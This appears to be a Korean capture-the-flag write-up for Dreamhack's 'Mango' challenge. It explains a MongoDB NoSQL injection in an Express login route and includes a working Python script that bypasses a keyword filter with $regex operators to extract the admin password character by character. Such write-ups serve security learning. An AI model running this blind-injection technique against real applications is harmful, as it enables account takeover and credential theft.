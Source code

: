 ```yaml
---
layout: post
title: Dreamhack | Mango
subtitle: Dreamhack Mango
categories: Web
tags: [Pentest, Web]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/209768468-a99abf9b-8cb2-470f-91ae-6f699275514d.png" width = 500> 
</p>

해당 커리큘럼은 **NoSQL Injection**으로 **Not Only SQL Injection**이다.

NoSQL로 대표적인 MongoDB를 Injection하는 문제입니다.

`{‘uid’: ‘admin’, ‘upw’: ‘DH{32alphanumeric}’}`로 기본적인 힌트를 제공한 상태입니다.

## 문제 풀이

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/209769011-290527da-cee8-486b-80b6-898d5b7a8f46.png" width = 360> 
</p>

처음 접속했을 때의 화면이다. `/login?uid=guest&upw=guest`의 힌트가 있기에 `http://host3.dreamhack.games:22541/login?uid=guest&upw=guest`로 접속하면 **guest** 문자열만을 출력한다.

`upw=a`로 변경하여 접속하게 되면 **undefined**를 출력한다.

위에서 나온 힌트 **admin**의 upw를 알아내는 것이 목표가 될 것이다.

아래는 제공 파일이고, 각각을 분석해보겠습니다.

```javascript
app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

`/` 루트로 접근했을 때 위 사진처럼 파라미터에 대한 String을 출력해준 것을 알 수 있다.

```javascript
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
```

`filter` 함수는 우리가 **/login**을 통해 넘긴 파라미터에 대한 값이 `BAN`에 포함 되어 있다면 Boolean을 return하는 함수다.

```javascript
app.get('/login', function(req, res) {
    if(filter(req.query)){ // <-------  Type Vulnerability
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});
```

필터링을 거치고 uid와 upw 변수에 할당하여 DB 조회시 값이 있다면 uid를 출력하는 홈페이지가 되겠습니다.

하지만, 주석 부분을 보면 쿼리에 대한 타입 검사를 진행하지 않기에 `json, string, object, list` 등 어떤 타입으로 전달이 가능하게 된다.

참과 거짓에 대한 결과가 나타나므로 Blind Injection을 진행하겠습니다.

현재, **admin**과 **DH**가 필터링 되어 있으므로 정규식을 이용해 우회하고, 플래그는 32자리 알파벳으로 정해져있다고 했으므로, 익스플로잇을 짜면 아래와 같게 된다.

```python
import requests, string
from tqdm import *

HOST = 'http://host3.dreamhack.games:22541'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''
for i in tqdm(range(32)):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```

`uid[$regex]=ad.in`의 `.`을 통해 admin과 DH 필터링을 우회하고 기존 Blind SQLi와 동일한 방식으로 익스플로잇하면 FLAG를 얻을 수 있다.
